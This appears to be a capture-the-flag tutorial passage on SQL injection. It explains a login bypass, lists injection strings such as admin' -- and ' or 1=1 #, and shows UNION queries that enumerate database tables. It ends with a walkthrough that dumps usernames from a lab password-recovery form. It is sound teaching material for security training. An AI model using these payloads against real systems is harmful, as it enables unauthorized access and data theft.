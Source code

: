 Normal user will just supply his username and password to login.

```
SELECT * FROM table WHERE username='ctf101' 
        AND password='greyhats'
```

However, an attacker not knowing the password can input the username as per normal, but filling the password field with
```1' or '1' = '1```. This still make a valid SQL query, with comparing password to be equal to 1 or "1" = "1". The 1 = 1 
will return true, thus gaining access to the attacker. 

```
SELECT * FROM table WHERE username='ctf101' 
        AND password=' 1' or '1' = '1 '
```

SQL injection 101

```
admin' --
admin' #
' or '1' = '1
' or '1' = '1 --
' or 1=1 #

-- or # is used to comment out the remaining query 
```

UNION is used to join two SQL query. The number of SELECT field in second query must be equal to the first query.

```
1' or '1' = '1' union select field1, field2 from table #

1' or '1' = '1' union select table_name from information_schema.tables #
```


Challenges
----------

### Practical 1: Login

Try logging in with two fields or one of the field or none of the field will return nothing to be displayed. 
There is a “Forget your password” feature, which we could take a look at it.

Since we do not know any username, we just try some standard name. “admin”, “root”, “user”. If the username 
is not found, the following message ```No Such User Found``` will be returned, else ```A password recovery email 
has been sent to user```will be returned

Let try the basic sql injection ```1' or '1' = '1```. And then a whole list of username is returned which mean 
string is not escaped for the sql query. 

```
A password recovery email has been sent to 5andy
A password recovery email has been sent to ctf101
A password recovery email has been sent to d4ni3l
A password recovery email has been sent to greyhats
					......
```

Let try to see what tables are there in the database with ```1' or '1' = '1' union select table_name 
```